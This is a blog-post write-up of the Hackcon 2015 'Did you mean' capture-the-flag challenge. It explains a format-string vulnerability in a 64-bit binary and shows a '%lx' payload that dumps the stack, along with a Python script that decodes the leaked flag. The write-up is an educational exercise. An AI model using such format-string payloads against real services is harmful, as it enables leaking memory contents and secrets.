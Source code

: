 ```yaml
---
layout: post
title:  "Hackcon 2015: Did you mean"
categories: hackcon2015
tags: pwnage
date: 2015-08-20 19:00:00
---
```


> Category: *Pwnage* - Points: *50*
>
> Description: *Pwnie*

The task provides us with the file [`pwnie`]({{ site.url }}/assets/hackcon2015/pwnie) and an ip and address for a webservice.

    $ file pwnie
    pwnie: ELF 64-bit LSB  executable, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=b87bef02278df740b6c0011e989f39b08ccfc998, not stripped

Let's try to run it:

    $ ./pwnie
    No!

Ok, sorry. Let's check the output of `strings`. The only interesting ones are:

    flag.txt
    The flag's right!
    Did you say:

So it seems that the file `flag.txt` is involved. Let's create it with content: `ABCDEFGHIJKLMNOP` and run the program again. Now the program waits for our input and if we put again `ABCDEFGHIJKLMOP` this happens:

    $ ./pwnie
    ABCDEFGHIJKLMNOP
    The flag's right!

Ok, we have to produce some interesting payload, let's start IDA and decompile the `main`. We also added some comment in the code to highlight the important parts.

{% highlight c %}
...
  v3 = fopen("flag.txt", "r");
  if ( v3 )
  {
    fgets((char *)&v7, 100, v3);  // v7 is the content of v3 (flag.txt)
    fgets(&s, 100, stdin);        // s is the string from the stdin
    v4 = strncmp(&s, (const char *)&v7, 0xAuLL); 
    if ( v4 )   // if they do not match
    {
      v4 = 0;
      puts("Did you say: ");
      fflush(_bss_start);
      __printf_chk(1LL, &s);      // print the user input
      fflush(_bss_start);
    }
    else
    {
      puts("The flag's right!");  // the flag is correct
      fflush(_bss_start);
    }
  }
  else                            // the file does not exist
  {
    v4 = -1;
    puts("No!");
    fflush(_bss_start);
  }
  v5 = *MK_FP(__FS__, 40LL) ^ v9;
  return v4;
}
{% endhighlight %}

There is a *string format exploit* in the line:

    __printf_chk(1LL, &s);

The user input is treated as format string. So we can exploit this to dump the stack and get our flag. Since the program is in 64 bits we need to use the placeholder `%lx` to print a whole memory block. The `fgets` is told to copy 100 bytes, so we can join 33 times `%lx` in order to get more data from the stack.

    $ ./pwnie
    %lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx

The output is:

> 07f7ef00e68707f7ef05c374004847464544434241504f4e4d4c4b4a49a00007f7ef05e45207fff414a69807fff414a6970f63d4e2e40043625786c25ffffffff786c25786c25786c6c25786c25786c2525786c25786c2578786c25786c25786c6c25786c25786c2525786c25786c2578786c25786c25786c6c25786c25786c2525786c25786c2578786c25786c25786c6c25786c25786c25786c25786c257839cc7d2e1411990007f7ef001cec50

We can easily spot the part that holds the content of the file stored in little endian:

    4847464544434241504f4e4d4c4b4a49

So the interesting part comes after 26 bits. We can use python to convert the stack into readable data:

{% highlight python %}
data = "07f7ef00e68707f7ef05c374004847464544434241504f4e4d4c4b4a49a00007f7ef05e45207fff414a69807fff414a6970f63d4e2e40043625786c25ffffffff786c25786c25786c6c25786c25786c2525786c25786c2578786c25786c25786c6c25786c25786c2525786c25786c2578786c25786c25786c6c25786c25786c2525786c25786c2578786c25786c25786c6c25786c25786c25786c25786c257839cc7d2e1411990007f7ef001cec50"

for i in xrange(26, len(data), 16):
    print repr(data[i:i+16].decode('hex')[::-1])
{% endhighlight %}

The result is:

    'ABCDEFGH'
    'IJKLMNOP'
    'R\xe4\x05\xef\xf7\x07\x00\xa0'
    '\xff\x07\x98\xa6\x14\xf4\xff\x07'

We can use the same technique on the webservice and get the flag: `FORMAT(STR)`.


